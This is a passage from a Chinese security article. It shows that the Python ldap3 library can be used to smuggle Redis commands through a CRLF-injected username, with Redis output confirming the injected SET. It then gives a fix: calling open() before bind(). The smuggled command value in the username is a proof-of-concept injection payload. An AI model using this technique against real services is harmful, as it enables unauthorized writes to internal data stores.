 如果使用的是ldap3，效果如下

```
from ldap3 import Server, Connection, ALL, SUBTREE, ServerPool

ldap_server_pool = ServerPool("ldap://10.211.55.2:6379")

conn = Connection(ldap_server_pool, user="\r\nSET ldap3 success\r\n", password="pass", check_names=True, lazy=False,
                  raise_exceptions=True)
conn.bind()
```



```
127.0.0.1:6379> KEYS *
1) "ldap3"
2) "test"
3) "test1"
127.0.0.1:6379> 
```

修复方式也很简单，直接在bind之前，执行下open函数，open函数会做一次校验

```
from ldap3 import Server, Connection, ALL, SUBTREE, ServerPool

ldap_server_pool = ServerPool("ldap://10.211.55.2:6379")

conn = Connection(ldap_server_pool, user="\r\nSET ldap4 success\r\n", password="pass", check_names=True, lazy=False,
                  raise_exceptions=True)
conn.open()
conn.bind()
```

效果如下

```
127.0.0.1:6379> KEYS *
(empty list or set)
```

##利用DICT协议

不展开






参考资料

<https://github.com/orangetw/Tiny-URL-Fuzzer>

<https://paper.seebug.org/510/>

<https://www.cnblogs.com/0xdd/p/11181490.html>

<https://www.freebuf.com/articles/web/159342.html>

